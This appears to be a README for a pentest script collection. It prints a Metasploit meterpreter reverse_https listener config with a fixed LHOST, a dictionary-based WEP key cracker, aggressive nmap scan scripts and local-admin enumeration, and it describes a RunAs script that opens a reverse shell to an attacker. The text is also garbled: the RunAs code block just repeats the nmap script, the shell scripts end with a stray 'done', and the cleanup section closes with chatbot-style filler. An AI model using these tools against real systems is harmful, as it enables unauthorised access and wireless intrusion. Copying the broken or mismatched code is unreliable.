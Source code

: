 # Scripts

* LocalAdmins.ps1 - Checks a file of host servers for members of the Administrators, Remote Desktop Users, and Users local groups.
* NSLookUp.ps1 - Runs a NSLookUp query against a file of host servers.
* PrivateIP - Runs a Nmap scan on against a file of host servers with Private IP's to check both TCP and UDP ports.
* PublicIP - Runs a Nmap scan on against a file of host servers with Public IP's to check both TCP and UDP ports.
* RunAs.ps1 - Runs a 'RunAs' command to switch context of user whilst triggering and initiating a reverse shell to the attacker.
* Meterpreter.rc - Sets a Meterpreter listener/handler with options (msfconsole -q -r Meterpreter.rc).
* WEPCracker.py - Wrapper script to crack WEP using Airdecap-ng.
* SystemCleanUp.ps1 - This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin.


### LocalAdmins.ps1

```
$servers = Get-Content C:\servers.txt
$groups = 'Administrators', 'Remote Desktop Users', 'Users'
$results = foreach ($server in $servers) {
    foreach ($group in $groups) {
        $obj = [ADSI]"WinNT://$server/$group"
        $obj.Invoke('Members') | % {
            $path = ([adsi]$_).path
            [pscustomobject]@{
                Computer = $server
                Group = $group
                Domain = $(Split-Path (Split-Path $path) -Leaf)
                User = $(Split-Path $path -Leaf)
            }
        }
    }
}
$results
```

### NSLookUp.ps1

```
$servers = get-content "C:\temp\hostlist.txt"
foreach ($Server in $Servers)
{
    $Addresses = $null
    try {
        $Addresses = [System.Net.Dns]::GetHostAddresses("$Server").IPAddressToString
    }
    catch { 
        $Addresses = "Server IP cannot resolve."
    }
    foreach($Address in $addresses) {
        write-host $Server, $Address 
    }
}
```

### Private IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Private -oG PrivateTCP.txt
nmap -sU -v -iL ./Private -oG PrivateUDP.txt
done
```

### Public IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### RunAs.ps1

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### Meterpreter.rc

```
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.91 
set LPORT 443
set ExitOnSession false 
exploit -j -z 
```

### WEPCracker.py

```
#!/usr/bin/python

import sys, binascii, re
from subprocess import Popen, PIPE

f = open(sys.argv[1], 'r')
for line in f:
    wepKey = re.sub(r'\W+', '', line)
    
    if len(wepKey) != 5 :
        continue
    hexKey = binascii.hexlify(wepKey)
    print "Trying with WEP key: " +wepKey + " Hex: " + hexKey
    p = Popen(['/usr/bin/airdecap-ng', '-w', hexKey, 'WEP-Advanced.cap'], stdout=PIPE)
    output = p.stdout.read()
    finalResult = output.split('\n')[4]
    
    if finalResult.find('1') != -1 :
        print "Success WEP Key Found: " + wepKey
        sys.exit(0)
print "Failure! WEP key could not be found with the existing dictionary!"
```

### SystemCleanup.ps1

```
# System Cleanup Script
# Removes temporary files, log files, and clears recycle bin to optimize system performance

Write-Host "Starting System Cleanup..." -ForegroundColor Green

# Function to delete files from a specified directory older than a certain number of days
function Cleanup-Files {
    param (
        [string]$Path,
        [int]$DaysOld = 7
    )
    if (Test-Path $Path) {
        Get-ChildItem -Path $Path -Recurse -File | Where-Object {
            $_.CreationTime -lt (Get-Date).AddDays(-$DaysOld)
        } | Remove-Item -Force -Verbose
    } else {
        Write-Host "Path $Path does not exist." -ForegroundColor Yellow
    }
}

# Cleaning Windows Temp folder
Write-Host "Cleaning Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "$env:Temp" -DaysOld 7

# Cleaning system Temp folder
Write-Host "Cleaning System Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Temp" -DaysOld 7

# Deleting old log files
Write-Host "Cleaning Log files..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Logs" -DaysOld 30
Cleanup-Files -Path "C:\ProgramData\Logs" -DaysOld 30

# Clearing Recycle Bin
Write-Host "Clearing Recycle Bin..." -ForegroundColor Cyan
Clear-RecycleBin -Confirm:$false -Verbose

Write-Host "System Cleanup Completed!" -ForegroundColor Green
```

How to Use:<br/>
1. Save the script as SystemCleanup.ps1.<br/>
2. Open PowerShell as an Administrator.<br/>
3. Run the script using: .\SystemCleanup.ps1.<br/>

This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin. You can customize the paths and retention periods as needed. Let me know if you need further assistance!

